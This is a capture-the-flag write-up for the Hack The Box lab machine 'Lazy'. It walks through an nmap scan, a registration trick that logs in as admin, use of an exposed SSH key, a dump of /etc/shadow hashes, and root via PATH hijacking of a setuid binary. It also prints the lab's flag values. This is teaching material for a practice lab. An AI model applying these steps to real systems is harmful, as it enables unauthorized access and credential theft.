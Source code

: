 # Lazy
#### 10.10.10.18

```{r, engine='bash', count_lines}
nmap -sS -sV 10.10.10.18

Nmap scan report for 10.10.10.18
Host is up (0.16s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.48 seconds

```


Website directs us to devcompany's page
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/Website.PNG "Website")

**To start, you will need to create a user register and then log in to check this company's projects and potential.**

Tried some basic SQL Injections on the login page but nada.
So, lets create a testuser
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/testuserlogin.PNG "testuserlogin")



After creating a user, there is something peculiar
Once the user is registered, it automatically logs us in as that user.
Lets try and create a user with the name admin

![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/adminalreadyexists.PNG "adminalreadyexists")

So admin already exists...
Maybe if we can trick the login form into thinking we have created the admin user, it should automatically log us into admin
Lets try a sql injection with some '=' signs
So the user we create will be
```
admin =
```
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/loginwithadmin.PNG "loginwithadmin")

And we are IN!!
![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/adminpage.PNG "adminpage")


There is a ssh key which we can download


![Alt test](https://github.com/jakobgoerke/HTB-Writeups/blob/master/Lazy/images/sshkey.PNG "sshkey")

Something important to note in the key page is the highlighted field. Thats the user the key is for
So we save the key in a file called mistos.key
Change its permissions to 600
```
root@kali:~/Hackthebox/Machines/Lazy# wget http://10.10.10.18/mysshkeywithnamemitsos
--2017-10-15 11:36:53--  http://10.10.10.18/mysshkeywithnamemitsos
Connecting to 10.10.10.18:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1679 (1.6K)
Saving to: ‘mysshkeywithnamemitsos’

mysshkeywithnamemitsos                      100%[===========================================================================================>]   1.64K  --.-KB/s    in 0s      

2017-10-15 11:36:53 (75.3 MB/s) - ‘mysshkeywithnamemitsos’ saved [1679/1679]

root@kali:~/Hackthebox/Machines/Lazy# mv mysshkeywithnamemitsos mitsos.key
root@kali:~/Hackthebox/Machines/Lazy# chmod 600 mitsos.key 
```

And we connect to mitsos
```
root@kali:~/Hackthebox/Machines/Lazy# ssh -i mitsos.key mitsos@10.10.10.18
Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Sun Oct 15 11:29:36 EEST 2017

  System load:  0.0               Processes:           178
  Usage of /:   7.6% of 18.58GB   Users logged in:     0
  Memory usage: 12%               IP address for eth0: 10.10.10.18
  Swap usage:   0%

  Graph this data and manage this system at:
    https://landscape.canonical.com/

Last login: Sun Oct 15 11:29:36 2017 from 10.10.15.189
mitsos@LazyClown:~$ 
```

**user.txt**
```
mitsos@LazyClown:~$ cat user.txt
d558e7924bdfe31266ec96b007dc63fc
```

**Priv Esc**

```
mitsos@LazyClown:~$ ls -l
total 20
-rwsrwsr-x 1 root   root   7303 May  3 00:02 backup
drwxrwxr-x 4 mitsos mitsos 4096 May  2 18:41 peda
-rw------- 1 root   root     33 Oct 15 04:54 tmp.txt
-rw------- 1 mitsos mitsos   33 May  3 18:52 user.txt
```

There is a executable named backup
When we try and run it, it gives something like this
```
mitsos@LazyClown:~$ ./backup 
root:$6$v1daFgo/$.7m9WXOoE4CKFdWvC.8A9aaQ334avEU8KHTmhjjGXMl0CTvZqRfNM5NO2/.7n2WtC58IUOMvLjHL0j4OsDPuL0:17288:0:99999:7:::
daemon:*:17016:0:99999:7:::
bin:*:17016:0:99999:7:::
sys:*:17016:0:99999:7:::
sync:*:17016:0:99999:7:::
games:*:17016:0:99999:7:::
man:*:17016:0:99999:7:::
lp:*:17016:0:99999:7:::
mail:*:17016:0:99999:7:::
news:*:17016:0:99999:7:::
uucp:*:17016:0:99999:7:::
proxy:*:17016:0:99999:7:::
www-data:*:17016:0:99999:7:::
backup:*:17016:0:99999:7:::
list:*:17016:0:99999:7:::
irc:*:17016:0:99999:7:::
gnats:*:17016:0:99999:7:::
nobody:*:17016:0:99999:7:::
libuuid:!:17016:0:99999:7:::
syslog:*:17016:0:99999:7:::
messagebus:*:17288:0:99999:7:::
landscape:*:17288:0:99999:7:::
mitsos:$6$LMSqqYD8$pqz8f/.wmOw3XwiLdqDuntwSrWy4P1hMYwc2MfZ70yA67pkjTaJgzbYaSgPlfnyCLLDDTDSoHJB99q2ky7lEB1:17288:0:99999:7:::
mysql:!:17288:0:99999:7:::
sshd:*:17288:0:99999:7:::
```

Lets run a strings on it

```
mitsos@LazyClown:~$ strings backup 
/lib/ld-linux.so.2
libc.so.6
_IO_stdin_used
system
__libc_start_main
__gmon_start__
GLIBC_2.0
PTRh
[^_]
cat /etc/shadow
;*2$"
...
...
...
```

So its a simple exec which runs the command "cat /etc/shadow" and it is run by root
This is perfect for priv esc!

Our path contains
```
mitsos@LazyClown:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

What we can do is create a executable with the name cat in our home directory and add the our home directory to our $PATH
Lets start by addint the $PATH first
```
mitsos@LazyClown:~$ export PATH="/home/mitsos:$PATH"
mitsos@LazyClown:~$ echo $PATH
/home/mitsos:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games
```

Now we need to create a cat executable.
We can create a bash script which will spawn a bash shell
Something as simple as
```
#!/bin/sh

/bin/sh
```

```
mitsos@LazyClown:~$ vim cat
mitsos@LazyClown:~$ chmod 777 cat
mitsos@LazyClown:~$ ls -l
total 24
-rwsrwsr-x 1 root   root   7303 May  3 00:02 backup
-rwxrwxrwx 1 mitsos mitsos   19 Oct 15 23:00 cat
drwxrwxr-x 4 mitsos mitsos 4096 May  2 18:41 peda
-rw------- 1 root   root     33 Oct 15 04:54 tmp.txt
-rw------- 1 mitsos mitsos   33 May  3 18:52 user.txt
```

We run "backup" now and it should pawn this lazy banana

```
mitsos@LazyClown:~$ ./backup 
# id
uid=1000(mitsos) gid=1000(mitsos) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lpadmin),111(sambashare),1000(mitsos)
```
Remember, the cat command wont work now. So to use it we have to call it directly from /bin/cat

**root.txt**
```
/binn/cat /root/root.txt
990b142c3cefd46a5e7d61f678d45515
```
